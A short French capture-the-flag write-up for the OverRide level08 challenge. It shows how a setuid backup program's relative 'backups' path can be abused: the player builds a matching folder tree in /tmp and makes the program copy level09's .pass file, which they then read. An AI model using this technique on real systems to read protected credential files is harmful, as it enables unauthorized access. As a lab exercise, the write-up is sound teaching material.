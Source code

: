 # Level08

On a un fichier qui crée un backup que l'on peut lire du fichier qu'on lui passe en argument.

L'objectif va etre de lui passer en argument le chemin du .pass de level09 mais nous rencontrons un soucis:

```c
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
Pour regler ca il faudrait creer les dossiers /home/users/level09/ dans le dossier backup mais nous n'avons pas les permissions...

Manque de bol, le dossier backup est tout le temps accede via un chemin relatif qui depend du repertoire dans lequel on execute le programme.

Il suffit de se deplacer dans /tmp/ pour creer notre propre structure de dossier. 

level08@OverRide:/tmp$ cd /tmp/
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 